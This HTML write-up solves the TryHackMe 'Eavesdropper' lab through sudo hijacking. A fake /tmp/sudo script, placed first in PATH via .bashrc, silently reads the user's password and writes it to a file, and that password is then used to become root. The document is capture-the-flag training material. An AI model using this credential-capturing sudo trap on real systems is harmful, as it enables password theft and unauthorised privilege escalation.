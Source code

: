 <h1>TryHackMe - Eavesdropper</h1>
<img src="./img/logo.png" alt="logo" width="500">
<h4>
    There are two ways to solve this machine.
    <ol>
        <li>Intended Way</li>
        <li>Unintended Way</li>
    </ol>
</h4>
<h4>
    You can follow the steps below to solve it using the intended way or you can check out another writeup by
    <code>xyro</code> who found an unintended way to solve this machine which is something very few people would have
    found and his approach to solve this machine is also unique. Link to his write is here => <a
        href="http://xyro.codes/THM/eavesdropper/writeup.html">xyro's writeup</a>
</h4>

<p>
    <strong>Intended way :</strong>
<ul>
    <li>
        <strong>Step 1 :</strong><br>
        LogIn to the machine using <code>idrsa.id-rsa</code> provided in task 1 with username <code>frank</code>.
    </li>
    <li>
        <strong>Step 2 :</strong><br>
        Transfer <code>pspy</code> onto the target machine and run it for a while. You will find an intresting
        command being executed. <code>sudo cat /etc/shadow</code>
    </li>
    <li>
        <strong>Step 3 :</strong><br>
        Time for <a href="https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-hijacking">sudo
            hijacking</a>.
        While creating our sudo executable, we have to be a little bit creative. Trying to get a reverse shell won't
        be useful. If u hijack sudo so that it spawns a reverse shell instead, the reverse shell u get back would be of
        the frank user because the sudo elevation hasn't happened yet. Instead we can capture the password entered by
        frank using a little bit of shell scripting. (Thanks you xyro for these words 😁).
        <code>sudo cat /etc/shadow</code> command.<br>
        Follow these steps to capture the password.
        <ol>
            <li>
                <code>touch /tmp/sudo</code> creating our own sudo executable.
            </li>
            <li>content of sudo file <br>
                <code>#!/bin/bash</code> -- I don't think i need to explain this. <br>
                <code>read -s password</code> -- after executes the command, this will read the password and store it in
                the password variable. <code>-s</code> is used so that the input is not displayed. Something i'm used to
                do.<br>
                <code>echo $password > /home/frank/pass.txt</code> -- echoing the password from password variable to
                pass.txt so that we can read it once catured. <br>
            </li>
            <li>
                <code>chmod +x /tmp/sudo</code>
            </li>
            <li>
                Modify you <code>$PATH</code> variable using <code>.bashrc</code> <br>
                <img src="./img/bashrc.png" alt="bashrc"> <br>
                Save the changes and wait for a few seconds after which you will see a pass.txt which has the password
                that can be used to switch to root.
            </li>
        </ol>
    </li>
    <li>
        <strong>Step 4 :</strong><br>
        Copy the password from pass.txt and do <code>/usr/bin/sudo su</code> and get the root flag.
    </li>
</ul>
<h1>
    Solved 😁<br>
    Once you are done with this. Make sure to ckeck out <a href="http://xyro.codes/THM/eavesdropper/writeup.html">xyro's writeup</a><br>
    His method is super awesome 👍🏻.
</h1>

</p>